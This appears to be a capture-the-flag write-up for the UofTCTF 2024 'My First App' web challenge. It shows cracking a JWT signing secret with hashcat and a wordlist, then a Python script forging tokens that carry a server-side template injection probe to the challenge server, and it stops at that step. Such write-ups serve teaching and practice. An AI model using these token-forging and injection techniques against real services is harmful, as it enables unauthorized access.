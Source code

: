 ```yaml
---
title: My First App
date: 2024-01-16
tags: 
- web
- jwt
- ssti
- author-hartmannsyg
categories: UofTCTF 2024
---
```


written by {% person hartmannsyg %}

When trying to solve this, I had no real idea what to do, the only injection surface seemed like an SSTI, but the username field was alphanumeric only so I could not use `{{7*7}}`

After reading some solutions, here's what I understand of the challenge, broken down:

## JWT

When you register, it sets a jwt cookie:
{% ccb wrapped:true %}
auth_token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImhhcnRtYW5uc3lnIn0.-ri-SlxYrO7FxYtz_jvzYMYLTXhFRyU2HfHqUbOe3wg
{% endccb %}

The jwt uses algorithm HS256 and has the payload:
```
{
  "username": "hartmannsyg"
}
```

Apparently, this jwt was crackable with rockyou.txt:

{% ccb terminal:true lang:bash wrapped:true %}
$ echo 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImhhcnRtYW5uc3lnIn0.-ri-SlxYrO7FxYtz_jvzYMYLTXhFRyU2HfHqUbOe3wg' > 'jwt'
$ hashcat -a 0 -m 16500 ./jwt ../../rockyou.txt
{% endccb %}

we see that the key is `torontobluejays`. We can now forge jwts.

## SSTI

```python
import requests
import jwt

payload = """{{7*7}}"""

auth = jwt.encode({"username": payload}, "torontobluejays", algorithm="HS256")

response = requests.get('https://uoftctf-my-first-app.chals.io/dashboard', cookies={"auth_token":auth})
print(response.text)
```
